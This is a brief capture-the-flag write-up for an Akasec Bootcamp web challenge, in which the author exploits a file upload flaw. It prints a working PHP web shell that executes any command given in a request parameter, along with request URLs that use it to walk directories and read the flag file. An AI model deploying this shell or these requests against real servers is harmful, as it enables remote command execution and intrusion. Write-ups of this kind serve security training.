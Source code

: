# Akasec Bootcamp : Gallery in the Cloud (web challenge)

## The Website : 
![Alt text](./pictures/website)

#### When I saw the website, I thought about file upload vulnerability.

# Step 1: I create a simple Backdoor with php > backdoor.php : 
``` 
    <?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?> 
```
#### Then I uploaded it, and it told me that my file was named 6785bg54g34.php. Haha, lol, just guessing—I forgot about it 

# Step 2: I get the path of my uploaded file, then call ?cmd= with the parameter "ls", and it responds to me with current directory content

# Step 3 : get the flag , hihihi hackkkerr : 
```
    http://172.174.238.89:8083/uploads/67abc49677d12.php?cmd=cd%20../../../../;cd%20flag;ls
```
# 1
![Alt text](./pictures/path)

# 2
```
http://172.174.238.89:8083/uploads/67abc49677d12.php?cmd=cd%20../../../../;cd%20flag;cat%20flag.txt
```

![Alt text](./pictures/flag.png)